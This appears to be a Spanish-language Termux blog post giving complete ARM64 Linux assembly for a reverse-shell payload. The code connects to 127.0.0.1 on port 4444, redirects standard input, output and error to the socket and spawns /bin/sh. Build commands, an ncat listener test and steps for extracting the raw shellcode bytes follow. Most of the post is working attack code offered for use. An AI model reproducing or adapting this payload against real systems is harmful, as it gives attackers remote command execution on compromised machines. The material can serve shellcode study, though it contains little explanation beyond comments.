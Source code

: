
```sh
bat $PREFIX/include/asm-generic/unistd.h 
```


```asm
.global _start

.section .text
_start:
    // set the frame pointer
    mov fp, sp

    // clear required registers
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2

    // create sockaddr_in struct
    sub sp, sp, #32      // Reservar espacio en la pila (32 bytes para alineación)
    str xzr, [sp, #16]   // 8 bytes de padding
    str xzr, [sp, #8]    // 8 bytes más de padding

    // Configurar sin_family (AF_INET = 2)
    mov x1, #0x02        // AF_INET
    strh w1, [sp, #0]    // Almacenar sin_family en el offset 0

    // Configurar sin_port (4444 en orden de red)
    mov x1, #0x115c      // Puerto 4444 en orden de host (big-endian)
    rev16 w1, w1         // Convertir a orden de red (big-endian)
    strh w1, [sp, #2]    // Almacenar sin_port en el offset 2

    // Configurar sin_addr (127.0.0.1 en orden de red)
    ldr x1, =0x0100007f  // 127.0.0.1 en orden de red (big-endian)
    str w1, [sp, #4]     // Almacenar sin_addr en el offset 4

    // call socket(domain, type, protocol)
    mov x0, #2           // AF_INET
    mov x1, #1           // SOCK_STREAM
    mov x2, #0           // protocol
    mov x8, #198         // socket syscall number (198 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si socket() falló
    b.lt _exit           // Si falló, salir
    mov x4, x0           // x4: socket file descriptor

    // call connect(sockfd, sockaddr, socklen_t)
    mov x0, x4           // sockfd
    mov x1, sp           // sockaddr
    mov x2, #16          // socklen_t
    mov x8, #203         // connect syscall number (203 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si connect() falló
    b.lt _exit           // Si falló, salir

    // call dup2 to redirect STDIN, STDOUT and STDERR
    mov x5, #3           // counter for STDIN, STDOUT, STDERR
dup_loop:
    mov x0, x4           // sockfd
    sub x5, x5, #1       // decrement counter
    mov x1, x5           // newfd
    mov x8, #24          // dup2 syscall number (24 for ARM64)
    svc #0
    cmp x5, #0
    b.ne dup_loop

    // spawn /bin/sh using execve
    // x1 and x2 are 0 at this point
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2
    sub sp, sp, #16       // Reservar espacio en la pila (16 bytes para alineación)
    str xzr, [sp, #8]    // Push null terminator
    ldr x0, =0x68732f2f6e69622f  // "/bin//sh" in little-endian
    str x0, [sp, #0]     // Push "/bin//sh"
    mov x0, sp           // [x0]: pointer to "/bin//sh"
    mov x8, #221         // execve syscall number (221 for ARM64)
    svc #0

_exit:
    // Exit the program
    mov x8, #93          // exit syscall number (93 for ARM64)
    svc #0 
```

## Compilation 

```sh
as -o shellcode.o shellcode.s
ld -o shellcode shellcode.o
```

### Comprobación 

```sh
ncat -lvp 4444
```

Luego 

```sh
./shellcode 
```
 
### Optener el código magina

```sh
objcopy -O binary shellcode shellcode.bin    #  extraemos los bytecode 
```

```sh
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode.bin; echo    # extraemos byte code de binario
```

El sesultado se compara con el resultado de la 2 columna:

```sh
objdump -d shellcode
```


{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


